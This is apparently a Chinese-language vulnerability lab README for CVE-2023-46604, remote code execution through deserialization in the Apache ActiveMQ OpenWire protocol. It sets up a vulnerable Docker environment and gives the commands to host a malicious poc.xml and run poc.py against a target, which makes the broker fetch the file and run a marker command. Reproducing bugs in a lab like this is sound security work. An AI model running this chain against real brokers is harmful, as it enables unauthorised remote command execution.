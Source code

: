 # Apache ActiveMQ OpenWire 协议反序列化命令执行漏洞（CVE-2023-46604）

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。

OpenWire协议在ActiveMQ中被用于多语言客户端与服务端通信。在Apache ActiveMQ 5.18.2版本及以前，OpenWire协议通信过程中存在一处反序列化漏洞，该漏洞可以允许具有网络访问权限的远程攻击者通过操作 OpenWire 协议中的序列化类类型，导致代理的类路径上的任何类实例化，从而执行任意命令。

参考链接：

- <https://activemq.apache.org/news/cve-2023-46604>
- <https://xz.aliyun.com/t/12929>
- <https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/>
- <https://forum.butian.net/share/2566>

## 环境搭建

ActiveMQ运行后，默认监听如下两个端口：

| 默认端口      | 默认条件      |
|-----------|-----------|
| 8161  web | 需配置才可远程访问 |
| 61616 tcp | 远程访问      |

反序列化漏洞出现在61616端口中。

执行如下命令启动一个ActiveMQ 5.17.3版本服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8161`检查服务是否运行成功。但实际上利用该漏洞，并不需要能够访问8161端口。

## 漏洞复现

首先，启动一个HTTP反连服务器，其中包含我们的[poc.xml](poc.xml)：

```shell
python3 -m http.server 6666
```

然后，执行[poc.py](poc.py)，传入的三个参数分别是目标服务器地址、端口，以及包含poc.xml的反连平台URL：

```shell
python3 poc.py target port http://ip of http server/poc.xml
```

执行完成后，进入ActiveMQ容器：

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

可见，`touch /tmp/activeMQ-RCE-success`已经被成功执行：

![01.png](01.png)